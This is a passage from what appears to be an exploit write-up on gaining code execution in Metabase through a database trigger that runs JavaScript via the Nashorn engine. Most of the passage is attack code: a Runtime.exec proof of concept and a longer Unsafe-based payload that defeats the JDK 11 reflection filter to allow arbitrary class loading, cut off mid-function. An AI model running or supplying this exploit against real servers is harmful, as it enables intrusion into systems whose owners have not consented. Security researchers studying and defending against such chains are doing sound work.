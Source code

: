 We can achieve code execution through the `javascript` engine. However, this method has been removed from default parsing in JDK 15. Interestingly, Metabase still utilizes the `js` engine technology in its project.

[![pCz4ngg.png](https://s1.ax1x.com/2023/07/28/pCz4ngg.png)](https://imgse.com/i/pCz4ngg)

Finally, we can build a `javascript` engine to enable code execution, like this:

```javascript
java.lang.Runtime.getRuntime().exec('touch /tmp/999')
```

[![pCz4Muj.png](https://s1.ax1x.com/2023/07/28/pCz4Muj.png)](https://imgse.com/i/pCz4Muj)

### Define Class

Through TRIGGER, we can execute arbitrary code using the `javascript` engine. Therefore, it is necessary to customize Class loading and execution in order to achieve more advanced exploitation. Since the latest version of Metabase imposes restrictions on JDK runtime, requiring JDK >= 11, we must address the issues related to JDK 9 modules and JDK 11 ReflectionFilter.

To tackle similar problems, we have achieved high compatibility with javascript scripts and bypass operations for higher version JDK. The core code is as follows:

```javascript
try {
  load("nashorn:mozilla_compat.js");
} catch (e) {}
function getUnsafe(){
  var theUnsafeMethod = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
  theUnsafeMethod.setAccessible(true); 
  return theUnsafeMethod.get(null);
}
function removeClassCache(clazz){
  var unsafe = getUnsafe();
  var clazzAnonymousClass = unsafe.defineAnonymousClass(clazz,java.lang.Class.forName("java.lang.Class").getResourceAsStream("Class.class").readAllBytes(),null);
  var reflectionDataField = clazzAnonymousClass.getDeclaredField("reflectionData");
  unsafe.putObject(clazz,unsafe.objectFieldOffset(reflectionDataField),null);
}
function bypassReflectionFilter() {
  var reflectionClass;
  try {
    reflectionClass = java.lang.Class.forName("jdk.internal.reflect.Reflection");
  } catch (error) {
    reflectionClass = java.lang.Class.forName("sun.reflect.Reflection");
  }
  var unsafe = getUnsafe();
  var classBuffer = reflectionClass.getResourceAsStream("Reflection.class").readAllBytes();
  var reflectionAnonymousClass = unsafe.defineAnonymousClass(reflectionClass, classBuffer, null);
  var fieldFilterMapField = reflectionAnonymousClass.getDeclaredField("fieldFilterMap");
  var methodFilterMapField = reflectionAnonymousClass.getDeclaredField("methodFilterMap");
  if (fieldFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
    unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(fieldFilterMapField), java.lang.Class.forName("java.util.HashMap").getConstructor().newInstance());
  }
  if (methodFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
    unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(methodFilterMapField), java.lang.Class.forName("java.util.HashMap").getConstructor().newInstance());
  }
  removeClassCache(java.lang.Class.forName("java.lang.Class"));
}
function setAccessible(accessibleObject){
    var unsafe = getUnsafe();
```